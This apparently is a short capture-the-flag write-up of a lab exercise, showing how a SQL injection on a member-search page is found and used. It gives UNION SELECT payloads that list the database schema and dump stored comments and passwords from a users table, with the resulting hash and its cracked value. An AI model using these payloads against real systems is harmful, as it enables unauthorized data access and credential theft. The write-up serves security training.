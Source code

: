 # How I found it

There is Injection sql In Search Members page so i use this query to get all tables

`1 UNION SELECT table_name, column_name FROM information_schema.columns`

i found a table call 'users' i get all informations in this table and i found the flag in the id : 5 by

`1 UNION SELECT Commentaire, countersign FROM users`

### Result
````
ID: 1 UNION SELECT Commentaire, countersign FROM users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28 ==> FortyTwo
````
